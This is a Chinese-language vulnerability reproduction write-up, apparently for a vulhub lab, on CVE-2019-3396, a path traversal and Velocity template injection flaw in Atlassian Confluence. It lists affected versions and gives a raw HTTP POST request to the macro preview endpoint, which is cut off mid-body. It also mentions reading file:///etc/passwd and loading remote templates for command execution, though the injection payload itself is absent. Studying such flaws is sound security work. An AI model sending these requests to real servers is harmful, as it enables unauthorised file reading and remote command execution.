

# （CVE-2019-3396）Atlassian Confluence 路径穿越与命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Confluence/CVE-2019-3396.html](http://book.iwonder.run/0day/Confluence/CVE-2019-3396.html)

## 一、漏洞简介

Atlassian Confluence 是企业广泛使用的 wiki 系统，其 6.14.2 版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用 Velocity 模板注入执行任意命令。

## 二、漏洞影响

所有 1.xx，2.xx，3.xx，4.xx 和 5.xx 版本

所有 6.0.x，6.1.x，6.2.x，6.3.x，6.4.x 和 6.5.x 版本

6.6.12 之前的所有 6.6.x 版本

所有 6.7.x，6.8.x，6.9.x，6.10.x 和 6.11.x 版本

6.12.3 之前的所有 6.12.x 版本

6.13.3 之前的所有 6.13.x 版本

6.14.2 之前的所有 6.14.x 版本

## 三、复现过程

发送如下数据包，即可读取文件`web.xml`：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","w 
```



6.12 以前的 Confluence 没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个 Velocity 模板，我们可以通过模板注入（SSTI）来执行任意命令：


## 参考链接

> [https://vulhub.org/#/environments/confluence/CVE-2019-3396/](https://vulhub.org/#/environments/confluence/CVE-2019-3396/)

